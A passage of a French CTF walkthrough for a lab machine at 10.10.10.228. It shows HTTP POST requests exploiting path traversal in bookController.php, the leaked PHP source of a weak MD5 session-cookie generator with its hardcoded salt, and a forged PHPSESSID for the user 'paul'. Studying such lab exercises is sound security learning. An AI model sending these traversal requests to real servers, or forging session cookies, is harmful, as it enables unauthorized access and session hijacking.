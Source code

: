 


```sh
POST /includes/bookController.php HTTP/1.1
Host: 10.10.10.228
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,/;q=0.8
Accept-Language: zh-CN,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=sj7ktf2u4g6a18doo77vvkl929
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 26
book=../index.php&method=1
```


Trouvez la ``secret key`` pour les tokens et php pour savoir comment les cookies sont créés en regardant les fichiers pour le portal sign. Lisez le code du cookie.
Après l'avoir lu, nous pouvons en conclure que le ``phpsessid`` est créé par la chaîne de ``hachage md5`` qui a une lettre aléatoire du nom de l'utilisateur.


```sh
POST /includes/bookController.php HTTP/1.1
Host: 10.10.10.228
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,/;q=0.8
Accept-Language: zh-CN,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=sj7ktf2u4g6a18doo77vvkl929
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
book=../portal/cookie.php&method=1
```

Nous obtenons ceci en réponse :


```sh
"<?php\r\n/**\r\n * @param string $username  Username requesting session cookie\r\n * \r\n * @return string $session_cookie Returns the generated cookie\r\n * \r\n * @devteam\r\n * Please DO NOT use default PHPSESSID; our security team says they are predictable.\r\n * CHANGE SECOND PART OF MD5 KEY EVERY WEEK\r\n * */\r\nfunction makesession($username){\r\n    $max = strlen($username) - 1;\r\n    $seed = rand(0, $max);\r\n    $key = "s4lTystR1nG".$username[$seed]."(!528./9890";\r\n    $session_cookie = $username.md5($key);\r\n\r\n    return $session_cookie;\r\n}"
```

Nous obtenons le ``PHPSessionID`` de Paul.


```sh
paul47200b180ccd6835d25d034eeb6e6390
```
